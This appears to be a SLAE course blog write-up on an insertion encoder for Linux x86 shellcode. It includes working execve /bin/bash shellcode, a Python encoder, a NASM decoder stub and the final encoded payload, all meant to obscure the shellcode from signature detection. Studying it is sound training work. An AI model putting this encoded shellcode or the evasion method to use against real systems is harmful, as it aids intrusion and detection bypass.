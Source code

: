 ```yaml
---
layout: post
title: SLAE Exercise 4 - Insertion Encoder
subtitle: Linux x86 Insertion Encoder
tags: [SLAE]
---
```


**Overview**

The fourth task of the SLAE exam required a custom enncoding shceme to be written. The requirements for this were as follows:

- PoC using execve-stack as the shellcode to encode and execute

**Requirements**

An insertion encoder was looked at for this exercise. This is done by inserting values into the original shellcode using a script which is then subsequently decoded when the shellcode is run by a decoder stub within the shellcode. The final shellcode will have a format similar to the following:


|Decoder stub   |  encoded shellcode|


For insertion encoder, a value will be inserted in-between the legitimate shellcode an example can be seen here whereby the value 0x10 is the inserted value:

Shellcode: 0x01, 0x02, 0x03, 0x04

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

To obtain the original shellcode, the role of the decoder stub for an insertion encoder is to move the legitimate shellcode values into the inserted values. An example of this can be seen below:

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x03, 0x10, 0x04


*Knowing how  this works, what is needed to create this shellcode?*

- Shellcode that is to be encoded, for this the SLAE execve-stack shellcode as per exercise criteria. 
- A program to insert the required values into the original shellcode. 
- A decoder shellcode program to decode the altered shellcode and run it. 


**Shellcode**

The shellcode for the execve-stack program is as follows:

```
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

```

This is due to the requirements set out for this exercise within the exam. 

**Encoder**

For the program to insert the required values into the shellcode, the python script found [here](https://github.com/14Deep/SLAE/tree/master/Exercise%204) can be used to insert the required values into the required shellcode, including putting values at the end of the shellcode to let the decoder stub know when to stop decoding. 

The code is commented so should not need explaining, this can be seen below:

```
#!/usr/bin/python
# Python Insertion Encoder 

# input shellcode, for this exercise the execve-stack shellcode
shellcode = ("\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# the value that is wished to be inserted, can be changed to a required value
insertionvalue = 0x10

# the value that signals the end of the shellcode, make sure this is not the same as 'insertionvalue'
endvalue = '0xaa,0xaa'

# setting encoded to be populated in the upcoming loop
encoded = ""

print 'Encoded shellcode ... \n'

#loop through shellcode inserting the 'insertionvalue' inbetween
for x in bytearray(shellcode) :

	encoded += '0x' 			# add 0x to 'encoded'
	encoded += '%02x,' %x                   # add first shellcode byte in hex format (02x) and a comma
	encoded += '0x%02x,' % insertionvalue   # as above, but the chosen insertion value is used instead


encoded += endvalue				# add 'endvalue' to shellcode so the decoder knows when to stop

print encoded + '\n'				# print 'encoded'

print 'Total length of encoded shellcode is - %d' % len(bytearray(shellcode))

```


**Decoder**

The decoder utilises the jmp, call, pop technique to get the address of the encoded shellcode. From there, it iterates through the shellcode moving all of the legitimate values into the inserted valued. The shellcode is heavily commented and should clearly explain what is occurring at each step. The shellcode can be found [here](https://github.com/14Deep/SLAE/blob/master/Exercise%204/Encoder.py), and is also displayed below:

```
; Filename: InsertionDecoder.nasm
; Author:   Jake Badman
; Website:  14deep.github.io
; Purpose:  An insertion decoder to decode the shellcode for exercise 4 of SLAE 

global _start			

section .text
_start:

;Will be using jmp, call, pop to get the address of the encoded shellcode. 

				
xor eax, eax			     ; clearing registers
xor ebx, ebx
xor ecx, ecx

jmp short shellcode                  ; jumping to call_shellcode, which holds the encoded shellcode

decoder:

	pop esi                      ; pop address of Shellcode into esi
	lea edi, [esi + 1]           ; this is tracking the inserted values, edi will contain the value after esi, which is the inserted value
	inc al                       ; move 1 to eax, used as a counter for inserted values
	mov byte cl, [esi + 1]	     ; moving the first inserted value into cl, this will stay constant and be used to check when the shellcode has finished
decode:
	mov bl, byte [esi + eax]     ; bl will point to the inserted values
	xor bl, cl                   ; check if there is still shellcode to decode
	jnz short EncodedShellcode   ; if the zero flag is not set it means that the xor'd value wasn't the same as the inserted value meaning
				     ; the shellcode has finished. 


	mov bl, byte [esi + eax + 1] ; This moves the value after the inserted value into bl
	mov byte [edi], bl	     ; move bl, the legitimate value into the inserted value before it 
	inc edi			     ; increment edi so that it points to the next inserted value
	inc eax			     ; adding 2 to eax to point to the next inserted value
	inc eax	

	jmp short decode             ; loop until all shellcode has been decoded


shellcode:

	call decoder
	EncodedShellcode: db 0x31,0x10,0xc0,0x10,0x50,0x10,0x68,0x10,0x62,0x10,0x61,0x10,0x73,0x10,0x68,0x10,0x68,0x10,0x62,0x10,0x69,0x10,0x6e,0x10,0x2f,0x10,0x68,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x89,0x10,0xe3,0x10,0x50,0x10,0x89,0x10,0xe2,0x10,0x53,0x10,0x89,0x10,0xe1,0x10,0xb0,0x10,0x0b,0x10,0xcd,0x10,0x80,0x10,0xaa,0xaa

```


